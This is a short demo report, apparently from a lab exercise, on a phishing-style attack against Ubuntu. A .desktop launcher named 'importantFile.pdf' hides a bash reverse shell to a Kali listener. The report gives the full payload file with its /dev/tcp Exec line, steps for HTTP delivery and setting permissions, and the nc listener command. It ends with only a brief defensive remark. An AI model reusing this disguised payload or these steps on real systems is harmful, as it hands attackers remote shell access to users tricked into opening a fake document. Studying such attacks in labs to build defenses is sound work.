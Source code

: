 # Reverse Shell via .desktop File  
*Cybersecurity Demo Report*

---

##1. Objective

This demo showcases a phishing-style reverse shell attack using a disguised `.desktop` file on Ubuntu.  
When the victim double-clicks the file, it initiates a reverse shell back to the attacker's Kali machine without opening a terminal or requiring further interaction.

---

##2. Environment Setup

- **Attacker:** Kali Linux  
- **Victim:** Ubuntu Desktop VM  
- **Listener Tool:** Netcat (nc)  
- **Network:** Bridged Adapter with IP `192.168.1.114` (Kali)  

---

##3. Tools Used

- Netcat for listening on the attacker’s side  
- Bash reverse shell payload embedded in a `.desktop` file  
- Python HTTP server for file delivery  
- `curl` for file download  

---

##4. Attack Scenario

A `.desktop` file named `importantFile.pdf.desktop` was created with a malicious `Exec` command that opens a reverse shell to the attacker's machine.  
When the file is made executable and allowed for launching in Ubuntu, double-clicking it initiates a shell session back to the attacker.

---
##Execution Steps

1. **Create the Payload File (`importantFile.pdf.desktop`)**

Create a `.desktop` file with the following content. This file, when executed, will open a reverse shell back to your Kali machine:

    [Desktop Entry]
    Name=importantFile.pdf
    Exec=bash -i >& /dev/tcp/192.168.1.114/4443 0>&1
    Type=Application
    Terminal=false

Save this content as `importantFile.pdf.desktop`.

---

2. **Start a Simple HTTP Server on the Host Machine (Ubuntu)**

Run the following command to serve the file over HTTP on port 8888:

    python3 -m http.server 8888

---

3. **Download the Payload File on the Target (Ubuntu)**

Download the file using the URL below on the target machine:

    http://192.168.1.114:8888/importantFile.pdf.desktop

---

4. **Set Execution Permissions and Move to Desktop**

Make the file executable:

    chmod +x importantFile.pdf.desktop

Move it to the Desktop folder:

    mv importantFile.pdf.desktop ~/Desktop/

---

5. **Start a Netcat Listener on Kali**

Open a terminal on Kali and run:

    nc -lvnp 4443

---

6. **Execute the Payload**

On the Ubuntu target, double-click the `importantFile.pdf.desktop` file on the Desktop to trigger the reverse shell connection to your Kali listener.


##Sources Used

- Linux man pages (`chmod`, `bash`, `netcat`)
- Python official documentation: [`python3 -m http.server`](https://docs.python.org/3/library/http.server.html)
- Desktop Entry Specification: [freedesktop.org](https://specifications.freedesktop.org/desktop-entry-spec/latest/)
- Netcat usage tutorials and common penetration testing guides
- Personal practical experience and lab testing

---

##Conclusion

This procedure demonstrates a straightforward way to create a malicious `.desktop` file that establishes a reverse shell connection from an Ubuntu target back to an attacker’s Kali machine. By hosting the payload on a simple Python HTTP server and using basic Linux commands to download, set permissions, and execute the file, the attacker can gain remote shell access.

The use of `.desktop` files as executable launchers on Linux desktops highlights the importance of cautious handling of downloaded files and maintaining strict user privilege controls. Additionally, setting up a netcat listener effectively allows the attacker to receive the connection.

Understanding these steps helps both penetration testers and system administrators recognize potential attack vectors and implement appropriate defenses.
